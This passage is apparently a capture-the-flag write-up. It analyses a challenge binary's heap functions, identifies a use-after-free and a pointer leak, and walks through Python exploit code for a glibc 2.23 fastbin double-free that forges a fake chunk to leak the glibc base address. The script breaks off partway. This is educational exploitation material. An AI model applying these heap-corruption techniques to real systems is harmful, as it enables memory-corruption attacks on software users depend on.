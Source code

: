 Looking at the allocation function, there are no obvious bugs. They restrict the total number of chunks allocated to 20, the chunk size to 88, and handle input correctly so there are no buffer overflows.

Looking at the free function they do not clear the pointers to the chunks they free, which means we can abuse use after free.

Looking at the edit function I realized that the array of malloced pointers is aligned to the end of the global array, meaning that if we fill the global array with non null characters, the first pointer can be leaked. This might be useful later.

Other than the UAF, and the heap leak there are no obvious bugs with negative indexing or bad number handling.

<hr>

**NOTE**
The following exploit is crafted for glibc 2.23 and will not work on newer versions, which introduce more security checks.

## Leaking glibc base address
First order of business is figuring out how to leak the glibc base address (the base address changes every time the binary is run due to ALSR). This is because knowing the glibc base gives us access to many exploitable components.

Usually to leak the glibc address I would allocate a chunk that is at least 144 bytes in size to bypass the fastbin, then free it and read the first 8 bytes to leak the glibc address. Doing that is not possible because the binary only allows us to allocate chunks up to 90 bytes. Even if I could allocate a chunk with size greater than 144 there is no way to view the chunk a leak the address.

### Committing heap fraud
If we can't create a chunk > 144 bytes legally, why don't we just create a fake one and free that instead?
The binary is loaded at a fixed address, and this means that the global array will always be located at the same place every time the program is run. This allows us to create a fake chunk inside the global array, and free that fake chunk to leak a glibc address.

```python
# create three chunks of the same size on the heap
create(0, b"")        # chunk 0
create(0, b"")        # chunk 1
create(0, b"")        # chunk 2

# create a fake chunk inside the global array with size 0x20
payload =  b""
payload += p64(0) + p64(0x21)
payload =  payload.ljust(0x100, b"\x00")
change(payload)

# free chunk 0 twice into the fastbin
delete(0)
delete(1)
delete(0)

# first allocation returns previous chunk 0 and overwrites the fd
# pointer with a pointer to the fake chunk
create(8, p64(0x602040)) # chunk 3
# second allocation returns chunk 1
create(0, b"")           # chunk 4
# third allocation returns chunk 0 again
create(0, b"")           # chunk 5
# fourth allocation finally returns our fake chunk at address 0x602040
create(0, b"")           # chunk 6

# now modify the metadata of the chunk and change its size to 0x90
payload =  b""
```